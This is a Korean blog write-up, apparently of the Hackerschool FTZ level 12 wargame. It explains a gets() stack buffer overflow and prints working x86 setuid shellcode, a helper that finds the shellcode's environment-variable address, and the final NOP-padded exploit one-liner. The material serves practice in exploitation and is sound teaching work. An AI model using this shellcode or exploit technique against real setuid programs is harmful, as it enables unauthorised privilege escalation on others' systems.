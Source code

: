 ```yaml
---
date: '2022-10-02'
before : '2022-10-01'
after : '2022-10-03'
title: '시스템 해킹(10) : 해커스쿨 FTZ 레벨 12'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. __들어가기 전에__

이것 또한 기본 BOF문제라고 할 수 있겠다. 11번과 다른 점은 gets를 사용한다는 점이다.

### 1. __Level 12__

접속하면 AttackMe 실행파일이 존재한다. 소스코드를 확인해보자.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}
```

레벨 11과 다를 것 없는 구조다. 다른 점은 gets(str)을 이용해 입력을 받는다는 사실.
gets()는 정말 위험한 함수니 내가 프로그래밍 할땐 절대 사용하지 않도록 해야겠다...


**<환경변수 등록>**

쉘코드는 4바이트짜리 return 에 들어가기는 너무 길다. 따라서 우린 "환경 변수"" 라는 친구를 만들어서 그 친구의 주소를 파악한 다음, 그 주소를 return 주소로 넘기도록 하겠다.
```
export SHELLCODE=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"') 
//환경변수 등록
```
쉘코드는 인터넷에서 카피해오는게 제일 빠르다..
```
int main(){ //get.c
        printf("%p\n", getenv("SHELLCODE"));
        return 0;
}
//쉘코드의 위치를 알려줄 함수 작성
```
c파일을 gcc로 컴파일 했으면 실행해보자. 다음과 같은(유사한) 결과를 얻을 것이다.
```
./get => 0xbffffc8d
```
이제 이 주소를 little endian x90형식으로 변환시키면 된다. 이 경우에는 **\x8d\xfc\xff\xbf** 가 될 것이다. 그럼 이제 이 값을 return주소에 넣어주면 된다.


**<버티컬바 "|" 실행>**

버티컬바 하나는 앞의 명령어 실행 결과를 뒤의 명령어의 입력으로(!) 넘긴다.
물론 먼저 attackme를 실행한 후 268개의 문자를 일일히 타자로 쳐도 되겠지만(...) 너무 귀찮은 작업이니 python -c를 사용하기 위해  cat으로 문장을 입력받은 다음 버티컬 바를 이용해서 이를 매개변수로 넘겨주도록 하자.
```
"\x90"*268+"\x8d\xfc\xff\xbf
 (python -c 'print"\x90"*268+"\x8d\xfc\xff\xbf"'; cat) | ./attackme
```
비밀번호 : have no clue

---
## Source

- 해커스쿨 FTZ
- Me!


